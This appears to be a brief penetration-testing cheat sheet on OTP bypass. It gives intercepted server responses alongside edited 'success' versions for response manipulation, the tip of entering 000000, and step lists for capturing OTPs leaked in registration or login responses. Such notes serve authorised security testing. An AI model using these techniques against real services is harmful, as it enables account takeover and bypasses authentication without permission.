 ## Bypass OTP

Wrong Response | Manipulate Response
----------------|--------------------
**{"status":"0","message":"Incorrect OTP. Please Try Again"}** | **{"status":"1","message":"Correct OTP"}**
**{"error"}** | **{"Success"}**
**{"verificationStatus":false,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"}** | **{"verificationStatus":true,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"}**
**Input String On OTP if Blank Response Value 200 OK** | **Add number 1 on Value**
**Input Wrong Captcha if Response Value 7** | **Change 7 to 1**

##### Bypass OTP #2
> Input 000000 Code To Bypass OTP

---

#### Authentication Bypass Due OTP Exposure

##### Tips #1
1. Register/Login into the system
2. After that Intercept That Request and Intercept Response.
3. **{"status_code":200, "OTP":4800,"user_id":"ef0245zxxxxxxxxx"}**
4. Boom OTP expose on Response Register/Logged in.
5. Use OTP, Done

##### Tips #2
1. Input phone number, and hen send .
2. Intercept Request and intercept response.
3. **{"msg":"success","OTP":601823}**
4. Boom OTP Exposed.
5. You can use OTP, Done






